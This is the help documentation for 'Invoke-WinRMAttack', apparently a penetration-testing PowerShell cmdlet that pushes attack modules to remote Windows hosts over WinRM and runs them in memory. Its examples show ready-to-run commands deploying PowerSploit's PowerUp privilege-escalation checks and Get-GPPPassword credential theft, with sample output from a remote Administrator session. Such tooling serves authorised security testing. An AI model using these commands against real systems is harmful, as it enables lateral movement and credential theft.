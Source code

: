 # Invoke-WinRMAttack
PowerShell cmdlet to push PowerShell attack modules to a remote system via PSRemoting

Help examples below;


Requires -version 2

    <#
            .Synopsis
            Push a PowerShell module to a remote system

            .Description
            This cmdlet will take a path to a single .ps1 script, Push it via the WINRM/PSREmoting communication channel and execute or install in memory

            .Parameter remote
            Target system

            .Parameter modulepath
            Full path to the module .ps1 script ot push to the remote system

            .Parameter creds
            Credentials to access the remote system

            .Parameter autoconnect
            Automatically connect to the remote PSSession

            Written by Dave Hardy, davehardy20@gmail.com @davehardy20
            Help from Ben Turner @benpturner

            Version 0.2

            .Example
            PS> Invoke-WinRMAttack -remote 192.168.134.10 -modulepath C:\Users\daveh\Documents\WindowsPowerShell\Modules\PowerSploit\Privesc\PowerUp.ps1 -creds

            Creating a PSSession to the Remote System
            Pushing the Module to the Remote System
            To connect to the session later, use Invoke-WinRMAttack -autoconnect

            Creates a New PSSession to the Remote system and Pushes the specified module via the remoting session communication channel and executes the script, in this case the PowerUp module.

            .Example
            PS> Invoke-WinRMAttack -remote 192.168.134.10 -modulepath C:\Users\daveh\Documents\WindowsPowerShell\Modules\PowerSploit\Exfiltration\Get-GPPPassword.ps1 -creds

            Remote Session exists
            Pushing the Module to the Remote System
            To connect to the session later, use Invoke-WinRMAttack -autoconnect

            Checks for the remote session and as it exists, just pushes the module to the remote system via the remoting communication channel.

            .Example
            PS> Invoke-WinRMAttack -remote 192.168.0.108 -creds -modulepath C:\Users\daveh\Documents\WindowsPowerShell\Modules\PowerSploit\Privesc\PowerUp.ps1 -autoconnect
            
            Creating a PSSession to the Remote System
            Pushing the Module to the Remote System
            Connecting to Remote Session

            Do everything and connect ot the remote PSSession

    
            .Example
            PS> Invoke-WinRMAttack -remote 192.168.134.10 -creds -autoconnect
            Remote Session exists
            No module specified to push
            Connecting to Remote Session

            Connects to a remote session and allows the operator to run commands

            [192.168.134.10]: PS C:\Users\Administrator\Documents> get-help Invoke-AllChecks

            NAME
            Invoke-AllChecks
    
            SYNOPSIS
            Runs all functions that check for various Windows privilege escalation opportunities.
    
    
            SYNTAX
            Invoke-AllChecks [-HTMLReport] [<CommonParameters>]
    
    
            DESCRIPTION
    

            RELATED LINKS

            REMARKS
            To see the examples, type: "get-help Invoke-AllChecks -examples".
            For more information, type: "get-help Invoke-AllChecks -detailed".
            For technical information, type: "get-help Invoke-AllChecks -full".


    #>